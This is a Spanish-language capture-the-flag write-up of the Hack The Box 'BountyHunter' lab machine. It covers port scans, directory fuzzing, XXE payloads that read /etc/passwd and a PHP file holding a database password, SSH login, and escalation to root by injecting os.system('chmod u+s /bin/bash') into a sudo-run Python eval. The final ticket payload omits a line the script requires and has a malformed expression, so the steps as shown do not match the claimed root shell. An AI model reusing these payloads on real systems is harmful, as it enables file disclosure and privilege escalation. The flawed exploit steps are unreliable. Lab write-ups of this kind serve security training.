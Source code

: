 ```yaml
---
layout: single
title: BountyHunter - Hack The Box
excerpt: "BountyHunter is an easy Linux machine that uses XML external entity injection to read system files. Being able to read a PHP file where credentials are leaked gives the opportunity to get a foothold on system as development user. A message from John mentions a contract with Skytrain Inc and states about a script that validates tickets. Auditing the source code of the python script reveals that it uses the eval function on ticket code, which can be injected, and as the python script can be run as root with sudo by the development user it is possible to get a root shell. "
date: 2024-04-18
classes: wide
header:
  teaser: /assets/images/htb-bounty/bounty.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - PHP
  - Script
  - XXE
---
```


![](/assets/images/htb-bounty/bounty.png)

BountyHunter is an easy Linux machine that uses XML external entity injection to read system files. Being able to read a PHP file where credentials are leaked gives the opportunity to get a foothold on system as development user. A message from John mentions a contract with Skytrain Inc and states about a script that validates tickets. Auditing the source code of the python script reveals that it uses the eval function on ticket code, which can be injected, and as the python script can be run as root with sudo by the development user it is possible to get a root shell.

## Portscan

```
# Nmap 7.94SVN scan initiated Sun Apr 14 18:27:12 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -oG allPorts 10.10.11.100
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.100 ()	Status: Up
Host: 10.10.11.100 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///	Ignored State: closed (65533)
# Nmap done at Sun Apr 14 18:27:25 2024 -- 1 IP address (1 host up) scanned in 12.67 seconds

```
Y con esto analizamos los puertos abiertos:
```
# Nmap 7.94SVN scan initiated Sun Apr 14 18:28:12 2024 as: nmap -sCV -p22,80 -oN targeted 10.10.11.100
Nmap scan report for 10.10.11.100
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 14 18:28:23 2024 -- 1 IP address (1 host up) scanned in 10.85 seconds

```
## Analisis Web

Analizando la página vemos que nos puede llevar a un lugar donde poder introducir información y verla reflejada asi que vamos a capturar la petición con el burpsuite.
![](/assets/images/htb-bounty/pag1.png)


Aqui esta lo que tenemos en el burp
![](/assets/images/htb-bounty/burp1.png)

Vemos que tenemos una data en base64 asi que vamos a meterla en el decoder para ver que tenemos, esto nos da una peticion en php. Vamos a intentar hacer un XXE injection en php:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
y donde queramos meterlo ponemos:
<title>&xxe;</title>
```
Lo encodeamos y lo ponemos de tipo url, probamos y nos da la respuesta que queremos asi que podemos probar mas inyecciones.
Antes de todo vamos a buscar un posible directorio de tipo .php
```
sudo wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.11.100/FUZZ.php
000000848:   200        0 L      0 W        0 Ch        "db"   
```

Ahora vamos a probarlo en el XXE injection:
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>hi</cwe>
		<cvss>hi</cvss>
		<reward>hi</reward>
		</bugreport>
```
Esto nos devuelve un codigo en base64 que vamos a decodear en la terminal:
```
 echo "PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=" | base64 -d
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>

```
Vamos a probar la contraseña que nos ha dado entrando en ssh:
```
ssh development@10.10.11.100                                                                   130 ⨯
development@10.10.11.100's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 17 Apr 2024 03:00:45 PM UTC

  System load:           0.0
  Usage of /:            24.3% of 6.83GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             215
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.100
  IPv6 address for eth0: dead:beef::250:56ff:feb9:c391


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Jul 21 12:04:13 2021 from 10.10.14.8
development@bountyhunter:~$
```
 
Ahora ya estamos dentro y podemos acceder a la flag de usuario

## Escalada de privilegios

Ahora toca escalar privilegios para obtener la flag de root. 
Con sudo -l vemos que tenemos permiso para ejecutar un script en python3
```
sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py

```
Vamos a ver el contenido de este script:

```
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()

```
Con esto analizandolo vemos que tenemos que introducir un archivo de tipo .md necesariamente, y mas requisitos.
Un posible contenido de nuestro archivo podria ser el siguiente:
```
# Skytrain Inc
## Ticket to 
** 11 + 2 
```

Y para intrucir un script malicioso podemos poner:
```
# Skytrain Inc
## Ticket to  
** 11 + 2  __import__('os').system('chmod u+s /bin/bash')
```

Esto si ejecutamos lo siguiente ya lo tendriamos:
```
sudo -u root python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/tmp/hola.md
Destination: 
Invalid ticket.
development@bountyhunter:/tmp$ bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# cat root.txt
c647c549364f46534d4d74db2ed2b828

```

